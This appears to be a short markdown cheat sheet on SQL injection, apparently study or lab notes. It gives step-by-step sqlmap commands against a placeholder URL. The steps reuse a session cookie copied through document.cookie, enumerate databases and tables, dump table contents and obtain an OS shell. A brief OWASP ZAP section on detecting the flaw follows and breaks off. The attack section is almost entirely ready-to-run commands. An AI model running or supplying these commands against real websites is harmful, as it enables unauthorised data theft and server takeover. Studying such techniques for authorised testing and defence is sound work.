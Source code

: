 # SQL Injection

## Sqlmap

**Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap**

copy the whole cookie from the console on the website after login 

```jsx
document.cookie 
```

after that to show all databases

```bash
sqlmap -u "http://websiteurl.com/?parameter=123" --cookie="paste cookie copied from above" --dbs
```

after that to show all tables

```bash
sqlmap -u "http://websiteurl.com/?parameter=123" --cookie="paste cookie copied from above" -D <databasename> --tables
```

after that to show the content of a table

```bash
sqlmap -u "http://websiteurl.com/?parameter=123" --cookie="paste cookie copied from above" -D <databasename> -T <Tablename> --dump
```

To get the OS shell

```bash
sqlmap -u "http://websiteurl.com/?parameter=123" --cookie="paste cookie copied from above" --os-shell
```

## OWASP ZAP

**Detect SQL Injection Vulnerabilities using OWASP ZAP**

Using active scan of the tool identify this